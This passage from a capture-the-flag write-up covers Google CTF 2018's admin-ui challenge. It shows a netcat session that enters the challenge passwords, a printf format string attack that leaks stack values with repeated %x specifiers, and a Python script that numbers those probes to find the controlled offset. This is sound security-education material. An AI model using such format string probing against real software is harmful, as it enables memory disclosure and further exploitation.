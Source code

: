 
```bash
root@kali:~/google-ctf-2018/admin-ui# nc mngmnt-iface.ctfcompetition.com 1337
=== Management Interface ===
 1) Service access
 2) Read EULA/patch notes
 3) Quit
1
Please enter the backdoo^Wservice password:
CTF{I_luv_buggy_sOFtware}
! Two factor authentication required !
Please enter secret secondary password:
CTF{Two_PasSworDz_Better_th4n_1_k?}
Authenticated
> echo "BBBBBBBBBB %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"
"BBBBBBBBBB 41414ac3 4 3 4f515740 2 0 0 0 0 0 0 0 0 0 0 74464f73 e08c007d 0 0 0 0 0 0 4ea52780 4e704bff 4ea51620 1 4ea516a3 e08c9e50 0 4e706409 d 4ea51620 a 41414b86 e08c9e50 4e70681b 6f686365 42424242 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 25207825 20782520 78252078 227825 0 0 e08c9d70 4e6f687b 0 8 e08c9b90 e08c9ad0 0"
```

Using the format string vulnerability in <code>printf</code>, we were able to print the addresses that this <code>printf</code> function is retrieving parameters from. We can pinpoint the exact location that we overwrite with B's by counting the number of address fields before we hit "<b>42424242</b>" in the echo'ed contents. If we want to avoid straining our eyes, we can create a simple script to count the fields for us.

The following python script generates a string to pass into the echo command that will show us the parameter number and the corresponding addresses <code>printf</code> is retrieving the parameters from.

<b>echo.py</b>
```py
#!/usr/bin/python


addresses = "".join([str(i) + ": %x  " for i in range(2,51)])

print("{0} {1}".format("BBBBBBBBBB", addresses))
```

```bash
root@kali:~/google-ctf-2018/admin-ui# python echo.py 
BBBBBBBBBB 2: %x  3: %x  4: %x  5: %x  6: %x  7: %x  8: %x  9: %x  10: %x  11: %x  12: %x  13: %x  14: %x  15: %x  16: %x  17: %x  18: %x  19: %x  20: %x  21: %x  22: %x  23: %x  24: %x  25: %x  26: %x  27: %x  28: %x  29: %x  30: %x  31: %x  32: %x  33: %x  34: %x  35: %x  36: %x  37: %x  38: %x  39: %x  40: %x  41: %x  42: %x  43: %x  44: %x  45: %x  46: %x  47: %x  48: %x  49: %x  50: %x 
```

We copy this string and pass it into the authenticated management console via <code>echo</code>. What we get back is now the same list of addresses as before, except with their corresponding parameter numbers conveniently displayed.  

